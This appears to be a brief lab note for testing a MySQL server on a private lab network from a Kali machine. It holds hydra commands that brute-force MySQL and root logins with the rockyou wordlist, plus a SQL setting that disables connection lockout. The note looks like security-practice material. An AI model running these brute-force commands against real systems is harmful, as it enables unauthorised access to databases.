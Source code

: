 # Web Application - Test Django

[Back](../../index.md)

- [Web Application - Test Django](#web-application---test-django)
  - [Architecture](#architecture)

---

## Architecture

- Target server:
  - ol8
  - mysql
  - ip: 192.168.1.11
- Tester Machine
  - kali
  - ip: 192.168.1.0/24

```sh
hydra -L /usr/share/wordlists/nmap.lst -P /usr/share/wordlists/rockyou.txt 192.168.1.11 mysql

hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.11 mysql
```


```sql
SET GLOBAL max_connect_errors = 100000000;
```

